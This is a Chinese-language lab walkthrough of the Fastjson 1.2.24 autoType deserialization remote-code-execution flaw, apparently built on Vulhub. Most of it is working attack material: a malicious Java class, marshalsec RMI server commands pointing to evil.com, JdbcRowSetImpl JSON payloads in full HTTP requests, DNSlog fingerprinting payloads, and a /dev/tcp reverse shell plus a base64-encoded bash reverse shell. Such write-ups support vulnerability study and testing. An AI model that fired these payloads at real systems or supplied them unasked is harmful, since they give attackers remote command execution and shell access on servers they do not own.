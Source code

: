 # Fastjson 1.2.24 反序列化导致任意命令执行漏洞

## 漏洞描述

Fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- [http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title- fastjson 远程反序列化poc的构造和分析/)

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8090`即可看到JSON格式的输出。

![image-20220223111249998](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231112044.png)

我们向这个地址POST一个JSON对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 如何判断一个站点是否存在Fastjson？

- 参考文章：https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/

**方式1 响应时间**

正常数据响应时间（29毫秒）：

![image-20220223141118979](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231411062.png)

存在Fastjson时，16进制数据响应时间明显变长（396毫秒）：

![image-20220223140820884](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231408972.png)

**方式2 DNSlog**

最新版本1.2.67依然可以通过dnslog判断后端是否使用fastjson

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

## 漏洞复现

因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

执行`javac TouchFile.java`，生成`TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

通过python搭建一个临时的web服务，该服务是为了接收LDAP服务重定向请求，需要在payload的目录下开启此web服务，这样才可以访问到payload文件。此处payload文件即`TouchFile.class`。

```
python -m http.server 8888
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`。

```
$ git clone https://github.com/mbechler/marshalsec.git
$ mvn clean package -DskipTests
$ cp ./target/marshalsec-0.0.3-SNAPSHOT-all.jar /home/kali/vulnerability/vulhub/fastjson/1.2.24-rce
```

```shell
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com:8888/#TouchFile" 9999
```

![image-20220223122416137](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231224191.png)

向靶场服务器发送Payload，带上RMI的地址，注意Content-Type应该是`application/json`：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

![image-20220223122432463](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231224531.png)

可见，命令`touch /tmp/success`已成功执行：

![image-20220223122451321](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231224373.png)

### 反弹shell

同样，执行`javac TouchFile.java`，生成`TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.174.128/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

也可以使用bash base64的方式：

```java
String[] commands = {"bash", "-c","{echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTQ3LjEyNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"}
```

启动一个RMI服务器，监听8888端口，并制定加载远程类`TouchFile.class`：

```
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 8888
```

发送POST请求包：

```
POST / HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 165

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.174.128:8888/TouchFile",
        "autoCommit":true
    }
}
```

监听9999端口，接收反弹shell：

![image-20220223125747062](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231257183.png)
